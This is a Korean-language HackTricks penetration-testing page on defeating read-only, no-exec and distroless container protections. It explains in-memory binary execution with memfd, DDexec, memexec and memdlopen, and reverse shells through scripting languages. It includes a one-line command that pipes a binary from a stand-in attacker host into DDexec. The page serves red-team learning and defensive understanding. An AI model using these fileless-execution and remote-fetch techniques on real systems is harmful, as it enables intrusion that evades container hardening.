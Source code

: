 # FS 보호 우회: 읽기 전용 / 실행 금지 / Distroless

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서 이 페이지에 언급된 기술을 더 깊이 설명합니다:

* [**DEF CON 31 - 리눅스 메모리 조작 탐색을 통한 은폐 및 회피**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 메모리 내 dlopen()을 통한 은폐 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 읽기 전용 / 실행 금지 시나리오

리눅스 머신이 **읽기 전용 (ro) 파일 시스템 보호**로 마운트되는 경우가 점점 더 많아지고 있습니다. 특히 컨테이너에서 그렇습니다. 이는 **`readOnlyRootFilesystem: true`**를 `securitycontext`에 설정하는 것만으로도 컨테이너를 실행할 수 있기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되더라도 **`/dev/shm`**는 여전히 쓰기가 가능하므로 디스크에 아무것도 쓸 수 없다는 것은 잘못된 것입니다. 그러나 이 폴더는 **실행 금지 보호**로 마운트되므로 여기에서 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
레드 팀 관점에서 볼 때, 이는 시스템에 이미 없는 바이너리(예: 백도어 또는 `kubectl`과 같은 열거기)를 다운로드하고 실행하는 것을 **복잡하게 만듭니다**.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, **인터프리터가 머신 내에 있는 한** 어떤 스크립트도 **실행할 수 있습니다**. 예를 들어, `sh`가 있는 경우 **셸 스크립트**를 실행하거나 `python`이 설치된 경우 **파이썬 스크립트**를 실행할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행하기에 충분하지 않습니다.

## 메모리 우회

바이너리를 실행하고 싶지만 파일 시스템이 이를 허용하지 않는 경우, 가장 좋은 방법은 **메모리에서 실행하는 것**입니다. 왜냐하면 **그곳에서는 보호가 적용되지 않기 때문입니다**.

### FD + exec 시스템 호출 우회

머신 내에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 메모리 파일 설명자(`create_memfd` 시스템 호출)에 저장할 수 있습니다. 이는 이러한 보호에 의해 보호되지 않으며, 그런 다음 **`exec` 시스템 호출**을 호출하여 **실행할 파일로 fd를 지정**할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 바이너리를 전달하면 **바이너리가 압축되고 b64 인코딩된** 스크립트를 지정된 언어로 생성하며, **fd**를 생성하여 `create_memfd` 시스템 호출을 호출하고 이를 실행하기 위한 **exec** 시스템 호출을 포함합니다.

{% hint style="warning" %}
이 방법은 PHP나 Node와 같은 다른 스크립팅 언어에서는 작동하지 않습니다. 왜냐하면 스크립트에서 원시 시스템 호출을 호출하는 **기본 방법이 없기 때문**입니다. 따라서 바이너리를 저장할 **메모리 fd**를 생성하기 위해 `create_memfd`를 호출할 수 없습니다.

또한, `/dev/shm`에 있는 파일로 **정규 fd**를 생성하는 것은 작동하지 않습니다. 왜냐하면 **실행 금지 보호**가 적용되기 때문에 실행할 수 없기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 기술은 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓰는 방법입니다.

따라서 **프로세스에서 실행되는 어셈블리 코드를 제어**함으로써 **셸코드**를 작성하고 프로세스를 "변형"하여 **임의의 코드를 실행**할 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **메모리**에서 자신의 **셸코드** 또는 **어떤 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. **다른 바이너리**를 **실행**하고 싶을 때마다 DDexec를 다시 시작할 필요 없이, DDexec 기술을 통해 memexec 셸코드를 실행하고 **이 데몬과 통신하여 새 바이너리를 로드하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 리버스 셸에서 바이너리를 실행하는 방법에 대한 예시는** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 확인할 수 있습니다.

### Memdlopen

DDexec와 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 바이너리를 로드하는 더 쉬운 방법**을 제공합니다. 이는 의존성이 있는 바이너리도 로드할 수 있게 해줄 수 있습니다.

## Distroless Bypass

### What is distroless

Distroless 컨테이너는 특정 애플리케이션이나 서비스 실행에 필요한 **최소한의 구성 요소**만 포함하고 있으며, 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 더 큰 구성 요소는 제외합니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거하여 컨테이너의 공격 표면을 줄이고** 악용될 수 있는 취약점의 수를 최소화하는 것입니다.

### Reverse Shell

Distroless 컨테이너에서는 **정상적인 셸을 얻기 위해 `sh` 또는 `bash`**를 찾을 수 없을 수도 있습니다. `ls`, `whoami`, `id`와 같은 바이너리도 찾을 수 없습니다... 시스템에서 일반적으로 실행하는 모든 것입니다.

{% hint style="warning" %}
따라서, **리버스 셸**을 얻거나 **시스템을 열거**할 수 없습니다.
{% endhint %}

그러나 손상된 컨테이너가 예를 들어 플라스크 웹을 실행하고 있다면, 파이썬이 설치되어 있으므로 **파이썬 리버스 셸**을 얻을 수 있습니다. 노드를 실행하고 있다면 노드 리버스 셸을 얻을 수 있으며, 대부분의 **스크립팅 언어**와 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 언어의 기능을 활용하여 **시스템을 열거**할 수 있습니다.
{% endhint %}

**`read-only/no-exec`** 보호가 없다면 리버스 셸을 악용하여 **파일 시스템에 바이너리를 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 이러한 보호가 일반적으로 존재하지만, **이전 메모리 실행 기술을 사용하여 우회할 수 있습니다**.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어의 리버스 셸을 얻고 메모리에서 바이너리를 실행하는 방법에 대한 예시는** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 확인할 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
